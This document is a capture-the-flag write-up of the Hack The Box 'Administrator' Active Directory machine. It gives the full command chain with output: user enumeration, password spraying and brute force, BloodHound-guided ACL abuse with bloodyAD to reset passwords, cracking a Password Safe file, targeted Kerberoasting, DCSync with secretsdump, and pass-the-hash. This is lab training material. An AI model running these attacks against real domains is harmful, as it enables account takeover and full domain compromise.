


Administrator#
Enumeration#
nmap -sC -sV -Pn 10.10.11.42 -oN scans/nmap.initial
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-01 23:35 GMT
Nmap scan report for 10.10.11.42
Host is up (0.036s latency).
Not shown: 987 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
21/tcp open ftp Microsoft ftpd
| ftp-syst:
|_ SYST: Windows_NT
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2025-03-02 06:35:46Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and required
|_clock-skew: 7h00m00s
| smb2-time:
| date: 2025-03-02T06:35:53
|_ start_date: N/A
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.64 seconds
dig +short ANY @10.10.11.42 administrator.htb
10.10.11.42
dc.administrator.htb.
dc.administrator.htb. hostmaster.administrator.htb. 124 900 600 86400 3600
Kerberos user enumeration#
kerbrute userenum \
-d administrator.htb \
--dc 10.10.11.42 \
-o valid_ad_users \
/usr/share/seclists-git/Usernames/xato-net-10-million-usernames-dup.txt
__ __ __
/ /_____ _____/ /_ _______ __/ /____
/ //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
/ ,< / __/ / / /_/ / / / /_/ / /_/ __/
/_/|_|\___/_/ /_.___/_/ \__,_/\__/\___/
Version: v1.0.3 (9dad6e1) - 03/02/25 - Ronnie Flathers @ropnop
2025/03/02 14:59:56 > Using KDC(s):
2025/03/02 14:59:56 > 10.10.11.42:88
2025/03/02 14:59:56 > [+] VALID USERNAME: michael@administrator.htb
2025/03/02 14:59:57 > [+] VALID USERNAME: Michael@administrator.htb
2025/03/02 14:59:57 > [+] VALID USERNAME: benjamin@administrator.htb
2025/03/02 15:00:06 > [+] VALID USERNAME: administrator@administrator.htb
2025/03/02 15:00:06 > [+] VALID USERNAME: emily@administrator.htb
2025/03/02 15:00:06 > [+] VALID USERNAME: MICHAEL@administrator.htb
2025/03/02 15:00:10 > [+] VALID USERNAME: olivia@administrator.htb
2025/03/02 15:00:13 > [+] VALID USERNAME: Benjamin@administrator.htb
2025/03/02 15:00:17 > [+] VALID USERNAME: ethan@administrator.htb
2025/03/02 15:01:15 > [+] VALID USERNAME: Administrator@administrator.htb
2025/03/02 15:02:04 > [+] VALID USERNAME: BENJAMIN@administrator.htb
Password Spraying#
Spraying an empty password to all of the users we got
kerbrute passwordspray \
-d administrator.htb \
--dc 10.10.11.42 \
./users \
''
Unauthenticated SMB connection attempts#
Unauthenticated smb connection attempts
./enum4linux.pl -a -u "" -p "" 10.10.11.42
./enum4linux.pl -a -u "guest" -p "" 10.10.11.42
smbmap -u "" -p "" -P 445 -H 10.10.11.42
smbmap -u "guest" -p "" -P 445 -H 10.10.11.42
smbclient -U '%' -L //10.10.11.42
smbclient -U 'guest%' -L //10.10.11.42
Unauthenticated LDAP Enumeration#
nmap -n -sV --script "ldap* and not brute" -p 389 10.10.11.42
Interesting lines:
| rootDomainNamingContext: DC=administrator,DC=htb
| ldapServiceName: administrator.htb:dc$@ADMINISTRATOR.HTB
| subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=administrator,DC=htb
| serverName: CN=DC,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=administrator,DC=htb
| schemaNamingContext: CN=Schema,CN=Configuration,DC=administrator,DC=htb
| namingContexts: DC=administrator,DC=htb
| namingContexts: CN=Configuration,DC=administrator,DC=htb
| namingContexts: CN=Schema,CN=Configuration,DC=administrator,DC=htb
| namingContexts: DC=DomainDnsZones,DC=administrator,DC=htb
| namingContexts: DC=ForestDnsZones,DC=administrator,DC=htb
| dsServiceName: CN=NTDS Settings,CN=DC,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=administrator,DC=htb
| dnsHostName: dc.administrator.htb
| defaultNamingContext: DC=administrator,DC=htb
|_ configurationNamingContext: CN=Configuration,DC=administrator,DC=htb
Trying to see if I can get an unauthenticated ldap connection
ldapsearch -x -H ldap://10.10.11.42:389 -b "DC=administrator,DC=htb"
ldapsearch -x -H ldap://10.10.11.42:389 -b "DC=administrator,DC=htb" -D '' -w ''
ldapsearch -x -H ldap://10.10.11.42:389 -b "DC=administrator,DC=htb" -D 'dc' -w ''
ldapsearch -x -H ldap://10.10.11.42:389 -b "DC=administrator,DC=htb" -D 'ADMINISTRATOR.HTB\dc' -w ''
nmap -p 389 --script ldap-search -Pn 10.10.11.42
nmap -p 389 --script ldap-novell-getpass -Pn 10.10.11.42
nmap -p 389 --script ldap-rootdse -Pn 10.10.11.42
nmap -n -sV --script "ldap* and not brute" -p 389 10.10.11.42
ldapsearch -LLL -H ldap://10.10.11.42:389 -x -s base
ldapsearch -LLL -H ldap://10.10.11.42:389 -x -s base namingcontexts
ldapsearch -LLL -H ldap://10.10.11.42:389 -x -b "DC=administrator,DC=htb"
hydra -l dc -P /usr/share/seclists-git/Passwords/Leaked-Databases/rockyou.txt 10.10.11.42 ldap2 -V -f
find /usr/share/nmap/scripts | grep ldap
/usr/share/nmap/scripts/ldap-search.nse
/usr/share/nmap/scripts/ldap-novell-getpass.nse
/usr/share/nmap/scripts/ldap-rootdse.nse
/usr/share/nmap/scripts/ldap-brute.nse
Brute Force#
Tring to bruteforce those users with some of the most common rockyou passwords
cme smb 10.10.11.42 \
-u users \
-p /usr/share/seclists-git/Passwords/Leaked-Databases/rockyou-30.txt \
--shares
AS-REP Roasting Attempts#
We don’t have a valid set of creds yet, so we can’t know if any of the users doesn’t require pre-auth, but we have a list of users, so we may as well just try them all
GetNPUsers.py administrator.htb/ \
-usersfile users \
-format hashcat \
-outputfile hashes.asreproast
Impacket v0.12.0.dev1+20230816.160145.f6e03b99 - Copyright 2023 Fortra
[-] User michael doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User benjamin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User emily doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User olivia doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ethan doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User dc doesn't have UF_DONT_REQUIRE_PREAUTH set
Unumerating LDAP with an authenticated user#
Oooh yoooo! I just realised there is info in the box description where we’re given an initial user’s password, god damn… Is that a new thing now? HTB gives you hints?
olivia:ichliebedich
cme ldap 10.10.11.42 -u users -p 'ichliebedich'
SMB 10.10.11.42 445 DC [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
LDAP 10.10.11.42 445 DC [-] administrator.htb\michael:ichliebedich
LDAP 10.10.11.42 445 DC [-] administrator.htb\benjamin:ichliebedich
LDAP 10.10.11.42 445 DC [-] administrator.htb\administrator:ichliebedich
LDAP 10.10.11.42 445 DC [-] administrator.htb\emily:ichliebedich
LDAP 10.10.11.42 389 DC [+] administrator.htb\olivia:ichliebedich
ldapsearch -x -LLL -H ldap://10.10.11.42:389 -b "DC=administrator,DC=htb" -D 'olivia@administrator.htb' -w 'ichliebedich'
ldapsearch -x -LLL -H ldap://10.10.11.42:389 -b "CN=users,DC=administrator,DC=htb" -D 'olivia@administrator.htb' -w 'ichliebedich' samaccountname
Now that we have olivia’s creds we can confirm that there’s no asrep roastable users
GetNPUsers.py \
administrator.htb/olivia:ichliebedich \
-request \
-format hashcat \
-outputfile hashes.asreproast
BloodHound#
Running bloodhound-python to get ldap data to be injested in BloodHound from our local linux box
bloodhound-python \
-u olivia \
-p 'ichliebedich' \
-c All \
-d administrator.htb \
--dns-timeout 10 \
-ns 10.10.11.42
Starting bloodhound and injesting the data
sudo neo4j start
bloodhound &
Olivial has GenericAll on Michael

And Michael has ForceChangePassword on Benjamin
BloodyAD#
Leveraging olivia’s GenericAll on michael to change michael’s password
bloodyAD \
-u "olivia" \
-p "ichliebedich" \
-d "administrator.htb" \
--host "10.10.11.42" \
--dns "10.10.11.42" \
-v DEBUG \
set password "michael" 'fluffydog17!'
cme ldap 10.10.11.42 -u 'michael' -p 'fluffydog17!'
Leveraging michael’s ForceChangePassword on benjamin to change benjamin’s password
bloodyAD \
-u "michael" \
-p 'fluffydog17!' \
-d "administrator.htb" \
--host "10.10.11.42" \
--dns "10.10.11.42" \
-v DEBUG \
set password "benjamin" 'fluffydog17!'
cme ldap 10.10.11.42 -u 'benjamin' -p 'fluffydog17!'
FTP Enum#
Olivia
ftp 10.10.11.42
Connected to 10.10.11.42.
220 Microsoft FTP Service
Name (10.10.11.42:blnkn): olivia
331 Password required
Password:
530 User cannot log in, home directory inaccessible.
ftp: Login failed.
Remote system type is Windows_NT.
ftp>
221 Goodbye.
Michael
ftp 10.10.11.42
Connected to 10.10.11.42.
220 Microsoft FTP Service
Name (10.10.11.42:blnkn): michael
331 Password required
Password:
530 User cannot log in, home directory inaccessible.
ftp: Login failed.
Remote system type is Windows_NT.
ftp>
221 Goodbye.
Benjamin
ftp 10.10.11.42
Connected to 10.10.11.42.
220 Microsoft FTP Service
Name (10.10.11.42:blnkn): benjamin
331 Password required
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
150 Opening ASCII mode data connection.
10-05-24 08:13AM 952 Backup.psafe3
226 Transfer complete.
ftp> get Backup.psafe3
200 PORT command successful.
125 Data connection already open; Transfer starting.
WARNING! 3 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
952 bytes received in 0.0317 seconds (29.4 kbytes/s)
ftp>
221 Goodbye.
We found a psafe3 file in benjamin’s documents
Crack Password Safe V3 database#
This is a password safe database
file Backup.psafe3
Backup.psafe3: Password Safe V3 database
John has a script, which didn’t work for me out of the box, I had to make a few changes
diff /usr/bin/pwsafe2john ../tools/pwsafe2john.py
32c31
< data = f.read(4)
---
> data = f.read(4).decode()
42,43c41
< iterations = struct.unpack(">I", f.read(4))[0]
<
---
> iterations = struct.unpack("<I", f.read(4))[0]
46c44
< sys.stdout.write(hexlify(buf))
---
> sys.stdout.write(hexlify(buf).decode())
52c50
< sys.stdout.write(hexlify(hsh))
---
> sys.stdout.write(hexlify(hsh).decode())
Crack it with john
john --wordlist=~/.local/share/seclists/rockyou.txt backupsafe.hash
john backupsafe.hash --show
Backu:t***********
1 password hash cracked, 0 left
Spraying it to all users just in case, no luck though
kerbrute passwordspray \
-d administrator.htb \
--dc 10.10.11.42 \
users \
't***********'
Extract the passwords from passwordsafe#
Install passwordsafe and open the archive with it
pwsafe Backup.psafe3

The passwords are
alexander:U*****************************
emily:U****************************
emma:W*****************************
cme winrm 10.10.11.42 -u users -p passwords
The user flag is on emily’s desktop
evil-winrm -i administrator.htb -u emily -p 'U*****************************
Abuse Emily’s GenericWrite#
Emily has GenericWrite on Ethan
GetUserSPNs.py did not work
GetUserSPNs.py \
-dc-ip 10.10.11.42 \
-dc-host administrator.htb \
administrator.htb/emily:U****************************
The first attempt at that gives us kerberos clock skew too great
python targetedKerberoast.py \
-u "emily" \
-p "U***************************** \
-d "administrator.htb" \
--dc-ip 10.10.11.42
Synchronizing time with the domain controller
sudo systemctl start ntpd
sudo ntpdate -u 10.10.11.42
And trying again, this time we get a TGS hash
python targetedKerberoast.py \
-u "emily" \
-p "U***************************** \
-d "administrator.htb" \
--dc-ip 10.10.11.42
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (ethan)
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$shnip
Cracking the hash
john --wordlist=~/.local/share/seclists/rockyou.txt tgs.hash
john tgs.hash --show
DCsync as ethan#
Ethan can dc-sync, so we can use impacket’s secretsdump to get a hash the administrator’s hash
secretsdump.py Administrator.htb/ethan:l*********@dc.Administrator.htb
We pass-the-hash with winrm to get a winrm shell as administrator
evil-winrm -i administrator.htb -u administrator -H "3*******************************"